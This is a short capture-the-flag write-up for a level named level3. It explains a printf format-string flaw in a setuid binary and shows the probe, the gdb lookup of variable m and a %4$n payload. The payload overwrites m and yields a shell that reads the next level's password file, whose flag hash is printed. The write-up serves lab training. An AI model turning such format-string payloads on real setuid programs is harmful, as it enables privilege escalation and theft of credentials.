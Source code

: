 ```sh
$> ls -l ~
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

In the code, we can see that `printf(str)` is vulnerable, because we can inject anything into the `str` parameter.

```sh
$> python -c 'print("A"*4 + "%p %p %p %p")' | ./level3
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```

As we can see, the 4th pointer displayed is injectable.  
In gdb, we can see that there's an `m` variable which is compared to the value `64`.  
`printf` has a special `n` specifier that can write things in memory.  
To write the payload, we get the address of `m` and reverse it. Then, we write 60 bytes of random data, followed by `%4$n` which will write the value `64` to the 4th memory location.

```sh
$> gdb -q level3
(gdb) info variables
[...]
0x0804988c  m

$> python -c 'print("\x8c\x98\x04\x08" + "\x90"*60 + "%4$n")' > /tmp/payload

$> cat /tmp/payload - | ./level3
????????????????????????????????????
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
